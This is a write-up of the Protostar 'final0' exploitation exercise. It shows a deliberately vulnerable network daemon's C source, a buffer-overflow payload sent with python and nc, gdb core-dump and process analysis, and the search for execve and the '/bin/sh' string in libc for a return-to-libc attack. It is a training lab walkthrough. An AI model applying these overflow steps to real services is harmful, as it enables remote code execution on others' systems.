







#### 28. Linux signals and core dumps

###### Protostar Final0

- About
	- This level combines a stack overflow and network programming for a remote overflow.
	- Hints: depending on where you are returning to, you may wish to use a `toupper()` proof shellcode.
	- Core files will be in `/tmp`.
	- This level is at `/opt/protostar/bin/final0`

`final0.c`

```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

```sh
m64@vm ~ $ man gets
```



```sh
root@protostar:/opt/protostar/bin# netstat -plant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      1050/portmap
tcp        0      0 0.0.0.0:2993            0.0.0.0:*               LISTEN      1613/final2
tcp        0      0 0.0.0.0:2994            0.0.0.0:*               LISTEN      1611/final1
tcp        0      0 0.0.0.0:2995            0.0.0.0:*               LISTEN      1609/final0
tcp        0      0 0.0.0.0:2996            0.0.0.0:*               LISTEN      1605/net3
tcp        0      0 0.0.0.0:2997            0.0.0.0:*               LISTEN      1603/net2
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1745/sshd
tcp        0      0 0.0.0.0:2998            0.0.0.0:*               LISTEN      1601/net1
tcp        0      0 0.0.0.0:2999            0.0.0.0:*               LISTEN      1599/net0
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      1588/exim4
tcp        0      0 0.0.0.0:33565           0.0.0.0:*               LISTEN      1062/rpc.statd
tcp        0      0 192.168.150.13:22       192.168.150.3:49979     ESTABLISHED 1775/sshd: user [pr
tcp        0      0 192.168.150.13:22       192.168.150.3:50155     ESTABLISHED 1821/sshd: user [pr
tcp6       0      0 :::22                   :::*                    LISTEN      1745/sshd
tcp6       0      0 ::1:25                  :::*                    LISTEN      1588/exim4
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# nc 127.0.0.1 2995
sample test
No such user SAMPLE TEST
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# python -c "print 'a'*510"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# python -c "print 'a'*510+'\x00'+'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkk'"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkk
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/opt/protostar/bin# python -c "print 'a'*510+'\x00'+'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkk'" | nc 127.0.0.1 2995
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/tmp# ls -l
total 84
-rw------- 1 root root 294912 Jun 16 15:25 core.11.final0.2437
root@protostar:/tmp#
```

```sh
m64@vm ~ $ man core
```



```sh
m64@vm ~ $ man 7 signal
```





**Signal**|**Value**|**Action**|**Comment**
:-----:|:-----:|:-----:|:-----:
SIGHUP|1|Term|Hangup detected on controlling terminal or death of controlling process
SIGINT|2|Term|Interrupt from keyboard
SIGQUIT|3|Core|Quit from keyboard
SIGILL|4|Core|Illegal Instruction
SIGABRT|6|Core|Abort signal from abort(3)
SIGFPE|8|Core|Floating point exception
SIGKILL|9|Term|Kill signal
SIGSEGV|11|Core|Invalid memory reference
SIGPIPE|13|Term|Broken pipe: write to pipe with no readers
SIGALRM|14|Term|Timer signal from alarm(2)
SIGTERM|15|Term|Termination signal
SIGUSR1|30,10,16|Term|User-defined signal 1
SIGUSR2|31,12,17|Term|User-defined signal 2
SIGCHLD|20,17,18|Ign|Child stopped or terminated
SIGCONT|19,18,25|Cont|Continue if stopped
SIGSTOP|17,19,23|Stop|Stop process
SIGTSTP|18,20,24|Stop|Stop typed at terminal
SIGTTIN|21,21,26|Stop|Terminal input for background process
SIGTTOU|22,22,27|Stop|Terminal output for background process

**Signal**|**Value**|**Action**|**Comment**
:-----:|:-----:|:-----:|:-----:
SIGBUS|10,7,10|Core|Bus error (bad memory access)
SIGPOLL|--|Term|Pollable event (Sys V). Synonym for SIGIO
SIGPROF|27,27,29|Term|Profiling timer expired
SIGSYS|12,31,12|Core|Bad argument to routine (SVr4)
SIGTRAP|5|Core|Trace/breakpoint trap
SIGURG|16,23,21|Ign|Urgent condition on socket (4.2BSD)
SIGVTALRM|26,26,28|Term|Virtual alarm clock (4.2BSD)
SIGXCPU|24,24,30|Core|CPU time limit exceeded (4.2BSD)
SIGXFSZ|25,25,31|Core|File size limit exceeded (4.2BSD)

```sh
root@protostar:/opt/protostar/bin# gdb ./final0 /tmp/core.11.final0.2437
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/final0...done.

warning: Can't read pathname for load map: Input/output error.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0x67666666 in ?? ()
(gdb) info registers
eax            0x804b008	134524936
ecx            0x0	0
edx            0x3	3
ebx            0x65646464	1701078116
esp            0xbffffc60	0xbffffc60
ebp            0x66656565	0x66656565
esi            0x0	0
edi            0x0	0
eip            0x67666666	0x67666666
eflags         0x10282	[ SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/32xw $esp-8
0xbffffc58:	0x66656565	0x67666666	0x68676767	0x69686868
0xbffffc68:	0x6a696969	0x6b6a6a6a	0x006b6b6b	0xb7ff1040
0xbffffc78:	0x00000004	0xb7fd7ff4	0x080498b0	0x00000000
0xbffffc88:	0xbffffd08	0xb7eadc76	0x00000001	0xbffffd34
0xbffffc98:	0xbffffd3c	0xb7fe1848	0xbffffcf0	0xffffffff
0xbffffca8:	0xb7ffeff4	0x08048787	0x00000001	0xbffffcf0
0xbffffcb8:	0xb7ff0626	0xb7fffab0	0xb7fe1b28	0xb7fd7ff4
0xbffffcc8:	0x00000000	0x00000000	0xbffffd08	0x99037883
(gdb)
```





```sh
root@protostar:/tmp# python -c "print 'a'*510+'\x00'+'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkk'" | nc 127.0.0.1 2995
root@protostar:/tmp# python -c "print 'a'*510+'\x00'+'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkk'" | nc 127.0.0.1 2995
```

```sh
root@protostar:/opt/protostar/bin# pidof final0
1609
root@protostar:/opt/protostar/bin# gdb -p `pidof final0`
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Attaching to process 1609
Reading symbols from /opt/protostar/bin/final0...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64	../sysdeps/unix/sysv/linux/i386/socket.S: No such file or directory.
	in ../sysdeps/unix/sysv/linux/i386/socket.S
(gdb) c
Continuing.
^C
Program received signal SIGINT, Interrupt.
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64	in ../sysdeps/unix/sysv/linux/i386/socket.S
Current language:  auto
The current source language is "auto; currently asm".
(gdb) set follow-fork-mode child
(gdb) c
Continuing.
[New process 2516]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2516]
0x67666666 in ?? ()
(gdb) i r
eax            0x804b008	134524936
ecx            0x0	0
edx            0x3	3
ebx            0x65646464	1701078116
esp            0xbffffc60	0xbffffc60
ebp            0x66656565	0x66656565
esi            0x0	0
edi            0x0	0
eip            0x67666666	0x67666666
eflags         0x10282	[ SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```

```
>>> "67666666".decode("hex")
'gfff'
>>>
```

```sh
root@protostar:/opt/protostar/bin# gdb -p `pidof final0`
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Attaching to process 1609
Reading symbols from /opt/protostar/bin/final0...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64	../sysdeps/unix/sysv/linux/i386/socket.S: No such file or directory.
	in ../sysdeps/unix/sysv/linux/i386/socket.S
(gdb) info functions @plt
All functions matching regular expression "@plt":

Non-debugging symbols:
0x080489fc  __errno_location@plt
0x08048a0c  srand@plt
0x08048a1c  open@plt
0x08048a2c  setgroups@plt
0x08048a3c  getpid@plt
0x08048a4c  strerror@plt
0x08048a5c  daemon@plt
0x08048a6c  err@plt
0x08048a7c  signal@plt
0x08048a8c  __gmon_start__@plt
0x08048a9c  strchr@plt
0x08048aac  gets@plt
0x08048abc  write@plt
0x08048acc  listen@plt
0x08048adc  toupper@plt
0x08048aec  memset@plt
0x08048afc  __libc_start_main@plt
0x08048b0c  wait@plt
0x08048b1c  htons@plt
0x08048b2c  read@plt
0x08048b3c  setresuid@plt
0x08048b4c  setresgid@plt
0x08048b5c  accept@plt
0x08048b6c  socket@plt
0x08048b7c  dup2@plt
0x08048b8c  strlen@plt
0x08048b9c  asprintf@plt
0x08048bac  printf@plt
0x08048bbc  bind@plt
0x08048bcc  close@plt
0x08048bdc  fwrite@plt
0x08048bec  fprintf@plt
0x08048bfc  setvbuf@plt
0x08048c0c  execve@plt
0x08048c1c  malloc@plt
0x08048c2c  fork@plt
0x08048c3c  setsockopt@plt
0x08048c4c  rand@plt
0x08048c5c  htonl@plt
0x08048c6c  snprintf@plt
0x08048c7c  strdup@plt
0x08048c8c  strcmp@plt
0x08048c9c  exit@plt
0xb7ead9c4  calloc@plt
0xb7ead9d4  realloc@plt
0xb7ead9e4  feof@plt
---Type <return> to continue, or q <return> to quit---
0xb7ead9f4  malloc@plt
0xb7eada04  ___tls_get_addr@plt
0xb7eada14  memalign@plt
0xb7eada24  free@plt
0xb7eada34  _Unwind_Find_FDE@plt
0xb7fe37cc  __libc_memalign@plt
0xb7fe37dc  malloc@plt
0xb7fe37ec  calloc@plt
0xb7fe37fc  realloc@plt
0xb7fe380c  ___tls_get_addr@plt
0xb7fe381c  free@plt
Current language:  auto
The current source language is "auto; currently asm".
(gdb)
```

```
0x08048c0c  execve@plt
```

`execve.c`

```c
void main()
{
	execve("/bin/sh", 0, 0);
}
```

```sh
root@protostar:/tmp# gcc execve.c -o execve
root@protostar:/tmp# ./execve
# ls -l
total 476
-rw------- 1 root root 294912 Jun 16 15:25 core.11.final0.2437
-rw------- 1 root root 401408 Jun 16 15:40 core.11.final0.2512
-rw------- 1 root root 401408 Jun 16 16:09 core.11.final0.2516
-rwxr-xr-x 1 root root   4522 Jun 16 16:19 execve
-rw-r--r-- 1 root root     42 Jun 16 16:19 execve.c
-rw-r--r-- 1 root root    286 Jun 16 16:11 final0.py
# exit
root@protostar:/tmp#
```

```sh
root@protostar:/tmp# gdb ./execve -q
Reading symbols from /tmp/execve...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x10
0x080483cd <main+9>:	mov    DWORD PTR [esp+0x8],0x0
0x080483d5 <main+17>:	mov    DWORD PTR [esp+0x4],0x0
0x080483dd <main+25>:	mov    DWORD PTR [esp],0x80484b0
0x080483e4 <main+32>:	call   0x80482fc <execve@plt>
0x080483e9 <main+37>:	leave
0x080483ea <main+38>:	ret
End of assembler dump.
(gdb) break *main
Breakpoint 1 at 0x80483c4
(gdb) r
Starting program: /tmp/execve

Breakpoint 1, 0x080483c4 in main ()
(gdb) si
0x080483c5 in main ()
(gdb)
0x080483c7 in main ()
(gdb)
0x080483ca in main ()
(gdb)
0x080483cd in main ()
(gdb)
0x080483d5 in main ()
(gdb)
0x080483dd in main ()
(gdb)
0x080483e4 in main ()
(gdb)
0x080482fc in execve@plt ()
(gdb) x/8wx $esp
0xbffff7bc:	0x080483e9	0x080484b0	0x00000000	0x00000000
0xbffff7cc:	0xb7fd7ff4	0x08048400	0x00000000	0xbffff858
(gdb) x/5i 0x080483e9
0x80483e9 <main+37>:	leave
0x80483ea <main+38>:	ret
0x80483eb:	nop
0x80483ec:	nop
0x80483ed:	nop
(gdb) x/s 0x080484b0
0x80484b0:	 "/bin/sh"
(gdb)
```

```sh
root@protostar:/tmp# ldd execve
	linux-gate.so.1 =>  (0xb7fe4000)
	libc.so.6 => /lib/libc.so.6 (0xb7e99000)
	/lib/ld-linux.so.2 (0xb7fe5000)
root@protostar:/tmp#
```

```sh
root@protostar:/opt/protostar/bin# grep -R -a -b -o /bin/sh /lib/libc.so.6
1176511:/bin/sh
root@protostar:/opt/protostar/bin#
```

```sh
root@protostar:/tmp# pidof final0
1609
root@protostar:/tmp#
```

```sh
root@protostar:/tmp# cat /proc/1609/maps
08048000-0804a000 r-xp 00000000 00:10 2240       /opt/protostar/bin/final0
0804a000-0804b000 rwxp 00001000 00:10 2240       /opt/protostar/bin/final0
b7e96000-b7e97000 rwxp 00000000 00:00 0
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0
b7fe0000-b7fe2000 rwxp 00000000 00:00 0
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
